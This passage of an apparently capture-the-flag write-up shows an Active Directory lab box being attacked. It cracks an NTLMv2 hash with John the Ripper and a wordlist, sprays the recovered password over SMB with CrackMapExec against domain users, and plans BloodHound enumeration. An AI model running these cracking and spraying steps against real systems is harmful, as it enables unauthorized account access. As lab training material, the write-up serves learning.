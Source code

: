 ```bash
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zqwj041FGX       (Tracy.White)     
1g 0:00:00:01 DONE (2024-08-15 07:25) 0.7874g/s 1954Kp/s 1954Kc/s 1954KC/s zta729..zozorox92
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

- The goal is to always password spray, I mean on a CTF not real world engagement 🤣🥹, and see if there are any other users using that same password. Unfortunately, Only the user `Tracy.White` which we have acquired uses that credential.

```bash
❯ cme smb 192.168.165.30 -u users.txt -p "zqwj041FGX" --continue-on-success
SMB         192.168.165.30  445    NARA             [*] Windows 10.0 Build 20348 x64 (name:NARA) (domain:nara-security.com) (signing:True) (SMBv1:False)
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Administrator:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Guest:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\krbtgt:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\NARA$:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Amelia.O'Brien:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Damian.Johnson:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Helen.Robinson:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Sara.O'Sullivan:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Jasmine.Roberts:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Declan.Reynolds:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Jodie.Summers:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Carolyn.Hill:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [-] nara-security.com\Jemma.Humphries:zqwj041FGX STATUS_LOGON_FAILURE 
SMB         192.168.165.30  445    NARA             [+] nara-security.com\Tracy.White:zqwj041FGX
```

- The rule of thumb for me is always to load up bloodhound once i have valid credentials. So i use the `bloodhound-python` tool which uses LDAP to query domain information if you have valid set of credentials. You don't have to wait till you get foothold so you can run a SharpHound collector, Hell NO!!!!!!.
